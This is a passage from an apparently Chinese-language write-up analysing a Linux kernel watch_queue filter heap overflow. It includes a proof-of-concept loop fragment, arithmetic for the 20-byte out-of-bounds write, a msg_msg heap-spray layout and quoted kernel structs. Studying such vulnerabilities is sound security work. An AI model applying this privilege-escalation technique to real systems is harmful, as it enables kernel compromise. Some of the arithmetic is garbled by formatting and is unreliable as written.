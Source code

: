 ```
   // Filter go
   if (ioctl(fds[0], IOC_WATCH_QUEUE_SET_FILTER, filter) < 0) {
     perror("ioctl(IOC_WATCH_QUEUE_SET_FILTER)");
     goto err;
   }
 
   check_corruption();
 
   if (corrupted_idx != -1)
     break;
 
   cleanup_msgmsg();
 } while (ntries < CORRUPT_MSGMSG_TRIES);

```

可以看到 struct watch_notification_filter 是直接从用户态传进来的。sizeof(wfilter->type_filter) _BITS_PER_LONG = 16_64 = 1024， sizeof(wfilter->type_filter) _8 = 16_8 = 128；0x30a = 778;

```
struct callback_head {
    struct callback_head *next;
    void (*func)(struct callback_head *head);
} __attribute__((aligned(sizeof(void *))));
#define rcu_head callback_head

```

struct watch_type_filter 占 16 个字节。

 

poc 中 nfilters=4, type=778 的有占其中一个。其余 type=1。

 

也就是内核分配了 16 + 4 + 4 _5_ 3 = 80 而可以访问的范围确实 16 + 4 + 4 _5_ 4 = 100.

 

越界的大小为 100 - 80 = 20。

 

poc 里堆喷了 2000*96 字节的堆。释放 1950 和 0 位置上的 msg。重复 50 次堆喷。大致又是这样。  
![](https://bbs.pediy.com/upload/attach/202204/734587_MMCPK9DA7C36Z64.png)

```
struct msg_msg {
    struct list_head m_list;
    long m_type;
    size_t m_ts;        /* message text size */
    struct msg_msgseg *next;
    void *security;
    /* the actual message follows immediately */
};
 
// https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/include/linux/types.h
struct list_head {
    struct list_head *next, *prev;
};
 
// https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/ipc/msgutil.c
struct msg_msgseg {
    struct msg_msgseg *next;
    /* the next part of the message follows immediately */
};

```

